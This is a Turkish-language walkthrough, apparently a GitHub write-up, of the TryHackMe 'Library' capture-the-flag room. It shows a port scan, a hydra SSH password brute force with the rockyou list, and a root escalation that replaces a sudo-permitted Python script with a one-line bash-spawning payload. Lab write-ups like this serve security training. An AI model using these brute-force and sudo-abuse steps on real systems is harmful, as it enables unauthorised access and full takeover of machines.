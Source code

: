 # TryHackMe - Library

Merhabalar, bu yazımda sizlere tryhackme.com platformunda bulunan library isimli odanın çözümünü göstereceğim. Bu makinede bulmamız gereken iki adet bayrak var. İlk önce nmap aracını kullanarak makinede açık olan portları görüntüleyeceğim.

```markdown
> nmap -sVC -n 10.10.104.11 --min-rate 1000

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-02 09:40 EDT
Nmap scan report for 10.10.104.11
Host is up (0.068s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
> 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
> 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.85 seconds
```

Gördüğünüz üzere varsayılan 2 port açık bulunmakta. Web sitesinin ana sayfasında `meliodas` isimli bir kullanıcının gönderisini görüyoruz. Hemen alt kısmında ise yorumları ve yorum gönderebilmek için kullanılan bir form görüyoruz.

![1](https://github.com/ronark7/writeups/assets/165813191/b987b3f4-c42b-4f91-b51a-03041dd63963)

formdan gönderilen veriden herhangi bir dönüt alamıyorum, muhtemelen sadece süs olarak konduğundandır. Dirsearch ile bir dosya/dizin taraması gerçekleştirdim, sonucunda ise robots.txt dosyasını ve /images adında bir dizin olduğunu öğrendim.

```markdown
> dirsearch -u http://10.10.104.11/

...
[09:53:08] 301 -  313B  - /images  ->  http://10.10.104.11/images/
[09:53:08] 200 -  510B  - /images/
[09:53:36] 200 -   33B  - /robots.txt
...
```

/images dizini içerisinde 4 adet resim bulunuyor. robots.txt dosyasının içerisinde ise "User-agent: rockyou" şeklinde bir mesaj var. Bu mesaj bize brute force yapmamız gerektiğini söylüyor olabilir. Sonuçta rockyou, daha önceden verileri sızdırılan bir web sitesi. Günümüzde bu verileri kullanarak deneme yanılma saldırıları yapıyoruz çünkü içerisinde onlarca farklı kombinasyonda şifre bulunuyor.

```markdown
> hydra -l meliodas -P Desktop/rockyou.txt ssh://10.10.104.11 -t 60

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-02 10:04:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://10.10.104.11:22/
> [22][ssh] host: 10.10.104.11   login: meliodas   password: *********
...
```

mesajdan yola çıkarak hydra ile brute force yaptıktan sonra `meliodas` kullanıcısının şifresine erişmiş oluyoruz. SSH üzerinden bağlandıktan sonra bulunduğumuz dizinde ilk bayrağımızı yani user.txt dosyasını alıyoruz.

```
The authenticity of host '10.10.104.11 (10.10.104.11)' can't be established.
ED25519 key fingerprint is SHA256:Ykgtf0Q1wQcyrBaGkW4BEBf3eK/QPGXnmEMgpaLxmzs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.104.11' (ED25519) to the list of known hosts.
meliodas@10.10.104.11's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt 
{bayrak}
meliodas@ubuntu:~$ 
meliodas@ubuntu:~$ 
```

Gördüğünüz üzere bulunduğumuz dizinde user.txt dışında bak.py adında bir dosya daha var. Bu dosyanın içeriği aşağıda ki şekildedir.

```
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

`sudo -l` komutunu kullandığımızda ise bu dosyayı herhangi bir versiyonda python ile herhangi bir kullanıcı olarak çalıştırabileceğimizi görüyoruz.

```
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Dosyanın içerisine bir shell kodu koyarak root yetkisine erişebileceğini düşünebilirsiniz ancak bu dosyayı düzenleme yetkimiz bulunmamakta. Bunun yerine dosyayı silme yetkimiz olduğundan silip aynı isimde, yetki yükseltebileceğimiz bir dosya yapabiliriz. Öncelikle `rm bak.py` komutunu kullanarak dosyayı silelim daha sonra ise vi ile bak.py dosyasını oluşturup içerisine aşağıda ki kodu girelim.

```
import os;os.system('/bin/bash')
```

Bu kod, os kütüphanesini kullanarak bash shelle geçmemizi sağlayacak. çalıştırmadan önce de başına sudo koyduğumuzda ise root yetkisini almış olacağız.

```
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt 
{bayrak}
root@ubuntu:/root#
```
